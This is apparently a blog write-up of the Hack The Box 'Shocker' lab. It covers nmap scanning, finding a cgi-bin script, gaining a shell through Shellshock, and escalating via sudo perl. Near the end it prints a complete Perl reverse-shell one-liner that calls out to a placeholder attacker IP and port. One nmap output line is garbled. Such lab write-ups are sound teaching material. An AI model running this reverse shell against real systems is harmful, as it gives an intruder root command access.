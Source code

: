 Below is my write-up on Shocker from HTB. 
At the time of writing, the IP address was 10.10.10.56. Unfortunately, I had lost my write-ups for Shocker & Nibbles. I'm rebuilding them, however it is done after the fact and with way less struggling. So let's get started!

let's hit nmap first.

`└──╼ $nmap -T4 -A -v 10.10.10.56`

>Starting Nmap 7.60 ( https://nmap.org ) at 2018-02-12 07:17 MST
>NSE: Loaded 146 scripts for scanning.
>NSE: Script Pre-scanning.
>Initiating NSE at 07:17
>Completed NSE at 07:17, 0.00s elapsed
>Initiating NSE at 07:17
>Completed NSE at 07:17, 0.00s elapsed
>Initiating Ping Scan at 07:17
>Scanning 10.10.10.56 [2 ports]
>Completed Ping Scan at 07:1qwdsc                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                        ion of 1 host. at 07:17
>Completed Parallel DNS resolution of 1 host. at 07:17, 0.06s elapsed
>Initiating Connect Scan at 07:17
>Scanning 10.10.10.56 [1000 ports]
>Discovered open port 80/tcp on 10.10.10.56
>Discovered open port 2222/tcp on 10.10.10.56
>Completed Connect Scan at 07:18, 26.81s elapsed (1000 total ports)
>Initiating Service scan at 07:18
>Scanning 2 services on 10.10.10.56
>Completed Service scan at 07:18, 6.59s elapsed (2 services on 1 host)
>NSE: Script scanning 10.10.10.56.
>Initiating NSE at 07:18
>Completed NSE at 07:18, 10.10s elapsed
>Initiating NSE at 07:18
>Completed NSE at 07:18, 0.00s elapsed
>Nmap scan report for 10.10.10.56
>Host is up (0.42s latency).
>Not shown: 998 closed ports
>PORT     STATE SERVICE VERSION
>80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
>| http-methods: 
>|_  Supported Methods: GET HEAD POST OPTIONS
>|_http-server-header: Apache/2.4.18 (Ubuntu)
>|_http-title: Site doesn't have a title (text/html).
>2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
>| ssh-hostkey: 
>|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
>|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
>|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (EdDSA)
>Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
>
>NSE: Script Post-scanning.
>Initiating NSE at 07:18
>Completed NSE at 07:18, 0.00s elapsed
>Initiating NSE at 07:18
>Completed NSE at 07:18, 0.00s elapsed
>Read data files from: /usr/bin/../share/nmap
>Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
>Nmap done: 1 IP address (1 host up) scanned in 44.62 seconds



Hmm ok. Well, we've got web and ssh. Let's hit the website and see what's up!
![](https://github.com/ICMPofDED/ICMPofDED.github.io/blob/master/images/shocker1.jpg?raw=true)
Nothing too interesting there..source?

`> <!DOCTYPE html><html><body>
><h2>Don't Bug Me!</h2><img src="bug.jpg" alt="bug" style="width:450px;height:350px;">
></body></html> `

Ok yeah, still not much to go on here. Let's try to find any other pages on the site. 

![](https://github.com/ICMPofDED/ICMPofDED.github.io/blob/master/images/shocker2.jpg?raw=true)

Hmm...Disappointing. 
Not really much to go on here.

Thinking about the name of the box, I'm guessing shocker had to do with the shellshock vulnerability. However, I am not seeing anything in the cgi-bin folder that is exploitable. I even downloaded a special cgi-bin wordlist. What am I missing?
Ok, I figured it out. Apparently I was looking for only bin, py and didn't do a search for .sh. So I found user.sh in the cgi-bin folder and now we have our way in.
So in terms of the actual exploit, I found this neat python script!

![https://gist.github.com/matjohn2/bc9689c60d4c9c5a2538/](https://gist.github.com/matjohn2/bc9689c60d4c9c5a2538/)

Super simple, it has the reverse shell built in! So I launch that and Aw yes, we got that userrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrr!

![](https://github.com/ICMPofDED/ICMPofDED.github.io/blob/master/images/shocker3.jpg?raw=true)


Sup' shelly what have you got in store for us?

![](https://github.com/ICMPofDED/ICMPofDED.github.io/blob/master/images/shocker4.jpg?raw=true)

After minimal enumeration 
`sudo -l`
I found this...

![](https://github.com/ICMPofDED/ICMPofDED.github.io/blob/master/images/shocker5.jpg?raw=true)

Whaaaat, Shelly you shouldn't have. (Really, you shouldn't have!)

So it's just as simple as starting up another netcat listener terminal window and sending this glorious reverse shell: 

`sudo perl -e 'use Socket;$i="myip";$p=myport;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'`


![](https://github.com/ICMPofDED/ICMPofDED.github.io/blob/master/images/shocker6.jpg?raw=true)

![](https://github.com/ICMPofDED/ICMPofDED.github.io/blob/master/images/shocker7.jpg?raw=true)

My face when I saw that: 


![](https://github.com/ICMPofDED/ICMPofDED.github.io/blob/master/images/shocker8.jpg?raw=true)



So now that this box is all said and done, I did struggle a lot before I realized it was shellshock. I even remember examining the image of the "bug" for steganagrophy. My lesson for this write-up...Make backups of your notes :). Thanks again for reading!
